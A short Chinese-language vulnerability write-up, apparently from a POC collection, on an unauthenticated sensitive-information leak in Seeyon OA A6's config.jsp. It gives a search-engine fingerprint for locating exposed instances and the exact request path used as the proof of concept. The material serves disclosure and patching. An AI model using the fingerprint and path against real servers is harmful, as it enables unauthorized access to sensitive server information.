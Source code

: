 # 致远OA A6 config.jsp 敏感信息泄漏漏洞

## 漏洞描述

致远OA A6 config.jsp页面可未授权访问，导致敏感信息泄漏漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
body="yyoa" && app="致远互联-OA"
```

## 漏洞复现

登录页面

![image-20220520152551136](./images/202205201525328.png)

验证POC

```
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![image-20220520152601778](./images/202205201526835.png)